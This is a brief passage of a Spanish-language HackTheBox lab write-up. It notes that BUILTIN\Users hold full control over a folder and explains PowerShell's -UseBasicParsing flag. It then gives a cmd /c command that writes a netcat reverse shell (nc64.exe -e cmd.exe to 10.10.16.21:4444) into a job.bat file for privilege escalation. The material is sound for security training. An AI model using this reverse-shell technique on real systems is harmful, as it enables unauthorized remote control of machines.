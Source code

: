 
![[Markup20.png]]
Builtin/Users representa a todos los usuarios a nivel local
La F significa full control

### 📌 ¿Qué hace `-UseBasicParsing` en wget?

Le dice a PowerShell que **no use el motor de Internet Explorer** para interpretar la respuesta (lo cual no está disponible en muchos entornos) y que simplemente descargue el archivo de forma cruda.


#### cmd /c "echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.21 4444 > C:\Log-Management\job.bat"

El cmd/c lo que haces es ejecutar la instruccion desde una terminal normal y no una powershell, por eso el parametro de -e no da problema. Por que en powershell lo interpreta como un parametro ambiguo y desde la terminal como texto plano


--------
# Creditos
Writeup oficial HackTheBox